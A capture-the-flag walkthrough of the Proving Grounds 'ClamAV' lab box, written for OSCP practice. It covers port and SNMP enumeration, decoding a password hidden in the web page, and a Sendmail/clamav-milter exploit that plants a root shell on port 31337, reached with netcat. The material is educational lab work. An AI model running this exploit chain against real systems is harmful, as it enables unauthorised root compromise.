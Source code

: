 ```yaml
---
title: "Proving Grounds - ClamAV"
categories: [Proving Grounds, Easy]
tags: [Linux, SNMP, ClamAV-Milter, OSCP]
mermaid: true
image: ../assets/img/oscp/oscp.png
---
```


ClamAV was an insightful box to explore exploitation techniques for services like ClamAV-Milter.

The process started with comprehensive information gathering, including a full port scan revealing various open ports. 

The HTTP enumeration led to identifying and decoding a binary message, providing a potential password. 

Enumeration of SNMP services helped identify the running ClamAV-Milter service. 

The exploitation phase involved searching for relevant exploits and utilizing a Perl script to create a backdoor by modifying the /etc/inetd.conf file, which enabled root shell access through a netcat connection on a specified port.

# Diagram

```mermaid
graph TD
    A[Information Gathering] -->|Port Scan| B[Enumeration]
    B --> C[HTTP 80]
    C --> |Find Binary Info| D[Decode Binary]
    B --> F[SNMP 199 & 25]
    F --> G[Identify ClamAV-Milter]
    G --> H[Exploit ClamAV-Milter] --> |Execute Perl Script| I[Root Shell]
```

## Information Gathering

`IP=192.168.184.42`  

### Port scan

---

- `nmap -sS -Pn -n -T4 --open $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open -p- $IP` - new port 6000
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,25,80,139,199,445,60000 $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%202.png)
    

## Enumeration

### HTTP 80

---

- [http://192.168.184.42/](http://192.168.184.42/) → Info in binary. Also the title is called `Ph33r`, looks like an User.
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%203.png)
    
- translating binary - `ifyoudontpwnmeuran00b` -  Looks like an password
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%204.png)
    

- `feroxbuster -u http://$IP -k -C 404,403,500,502  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%205.png)
    


### SNMP 199 & 25

---

- `snmpwalk -c public -v1 $IP` - Nothing useful
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2012.png)
    
- `snmp-check $IP -c public`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2013.png)
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2015.png)
    
    

It’s running  **ClamAV-Milter**

```jsx
3782 runnable clamav-milter /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
```

## Exploitation

### ClamAV

---

Now searching for scripts for ClamAV-Milter

- `searchsploit ClamAV-Milter` → *Only in perl*
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2017.png)
    
- `cat 4761.pl`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2018.png)
    

This script exploits a vulnerability in Sendmail when used with ClamAV's milter to append a malicious command to `/etc/inetd.conf`, effectively creating a backdoor that grants root access via a shell on a specified TCP port (31337). The script then restarts the inetd service to activate the backdoor.

- `perl 4761.pl $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2019.png)
    

- `nc $IP 31337
/bin/sh -i`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2020.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2021.png)